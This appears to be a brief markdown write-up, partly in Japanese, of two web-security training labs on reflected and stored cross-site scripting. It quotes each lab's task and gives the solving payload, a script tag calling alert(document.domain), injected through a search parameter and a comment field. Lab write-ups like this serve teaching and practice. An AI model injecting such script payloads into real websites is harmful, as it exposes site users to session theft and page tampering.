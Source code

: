 # XSS

## Reflected XSS into HTML context with nothing encoded

```text
This lab contains a simple reflected cross-site scripting vulnerability in the search functionality.

To solve the lab, perform a cross-site scripting attack that calls the alert function.
```

`?search`に対し

```html
<script>alert(document.domain)</script>
```

![](./images/README_231115_150815.png)


## Stored XSS into HTML context with nothing encoded

```text
This lab contains a stored cross-site scripting vulnerability in the comment functionality.

To solve this lab, submit a comment that calls the alert function when the blog post is viewed.
```

commentに対して

```html
<script>alert(document.domain)</script>
```

![](./images/README_231115_152925.png)


